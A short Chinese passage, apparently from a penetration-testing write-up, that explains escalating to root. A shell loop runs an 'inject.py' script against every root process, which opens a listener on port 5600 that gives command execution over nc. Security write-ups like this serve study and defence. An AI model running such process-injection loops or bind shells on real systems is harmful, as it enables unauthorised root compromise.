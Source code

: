 因为需要找root进程进行注入，所以简单写个脚本对root进程进行批量尝试

```
for i in `ps -ef|grep root|grep -v "grep"|awk '{print $2}'`; do python2.7 inject.py $i; done
```

本地执行成功后，通过netstat可以看到开启监听了5600端口，通过nc连接后即可执行命令

![image-20220911215557060](../../.gitbook/assets/image-20220911215557060.png)

![image-20230208145833768](../../.gitbook/assets/image-20230208145833768.png)
